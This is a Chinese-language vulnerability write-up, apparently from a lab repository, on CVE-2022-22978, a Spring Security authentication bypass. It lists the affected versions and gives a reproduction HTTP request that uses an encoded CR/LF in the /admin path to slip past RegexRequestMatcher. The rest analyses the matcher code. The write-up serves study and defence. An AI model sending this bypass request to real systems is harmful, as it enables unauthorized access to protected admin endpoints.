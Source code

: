 # CVE-2022-22978 认证绕过漏洞

https://github.com/XuCcc/VulEnv/tree/master/springboot/cve_2022_22978

vulhub也有这个环境

当Spring-security使用 RegexRequestMatcher 进行权限配置，由于RegexRequestMatcher正则表达式配置权限的特性，正则表达式中包含“.”时，未经身份验证攻击者可以通过构造恶意数据包绕过身份认证。

**影响版本**

Spring Security 5.5.x < 5.5.7

Spring Security 5.6.x < 5.6.4

## 漏洞复现

```http
GET /admin/1%0d%0a HTTP/1.1
Host: 127.0.0.1:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: JSESSIONID=E8E29D0409C6C153D1C825E11A344082
Connection: close
```

![image-20230807180734754](images/20.png)

## 漏洞分析

![image-20230807180436852](images/21.png)

![image-20230807180427182](images/22.png)

对/admin路由下，任意路径进行匹配，在访问/admin/{name}接口时，需要认证才能访问

spring-security-web-5.6.3.jar包中，org.springframework.security.web.uti.matcher.RegexRequestMatcher#matchers中

![image-20230807180850900](images/23.png)

request.getServletPath()会对字符解码 并且会将;之后的字符到/字符删除，随后通过getServletPath获取URL，尝试提取？后的参数进行拼接，然后使用正则表达式匹配。

其中HTTPServletRequest中对URL路径的几种解析方法。

```
request.getRequestURL()：返回全路径；
request.getRequestURI()：返回除去Host（域名或IP）部分的路径；
request.getContextPath()：返回工程名部分，如果工程映射为/，则返回为空；
request.getServletPath()：返回除去Host和工程名部分的路径；
request.getPathInfo()：仅返回传递到Servlet的路径，如果没有传递额外的路径信息，则此返回Null；
```

